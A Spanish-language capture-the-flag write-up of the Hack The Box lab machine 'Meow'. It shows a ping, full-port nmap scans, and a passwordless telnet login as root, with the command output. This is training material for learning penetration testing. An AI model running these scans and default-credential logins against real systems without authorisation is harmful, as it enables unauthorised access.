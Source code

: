 ```yaml
---
title: Hack The Box Meow
author: k4miyo
date: 2023-07-30
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories:
  - Very Easy
  - Linux
tags:
  - Telnet
  - Network
  - Protocols
  - Reconnaissance
  - Weak
  - Credentials
  - Misconfiguration
ping: true
---
```

## Máquina Meow
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.129.31.92.

```bash
❯ ping -c 1 10.129.31.92
PING 10.129.31.92 (10.129.31.92) 56(84) bytes of data.
64 bytes from 10.129.31.92: icmp_seq=1 ttl=63 time=82.6 ms

--- 10.129.31.92 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 82.632/82.632/82.632/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo (sistema operativo). A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -Pn 10.129.31.92 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-30 16:06 CST
Initiating Parallel DNS resolution of 1 host. at 16:06
Completed Parallel DNS resolution of 1 host. at 16:06, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 16:06
Scanning 10.129.31.92 [65535 ports]
Discovered open port 23/tcp on 10.129.31.92
Completed SYN Stealth Scan at 16:07, 13.26s elapsed (65535 total ports)
Nmap scan report for 10.129.31.92
Host is up, received user-set (0.074s latency).
Scanned at 2023-07-30 16:06:59 CST for 13s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
           Raw packets sent: 65865 (2.898MB) | Rcvd: 65635 (2.625MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬───────────────────────────────────
       │ File: extractPorts.tmp
───────┼───────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.129.31.92
   5   │     [*] Open ports: 23
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p23 10.129.31.92 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-30 16:09 CST
Nmap scan report for 10.129.31.92
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Observamos el puerto 23 abierto asociado el servico de telnet, así que vamos a conectarnos como el usuario **root** sin proporcionar contraseña.

```bash
 telnet 10.129.31.92
Trying 10.129.31.92...
Connected to 10.129.31.92.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 30 Jul 2023 10:11:02 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.31.92
  IPv6 address for eth0: dead:beef::250:56ff:feb0:76ba

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Ya somos el usuario **root** y podemos visualizar la flag (flag.txt).
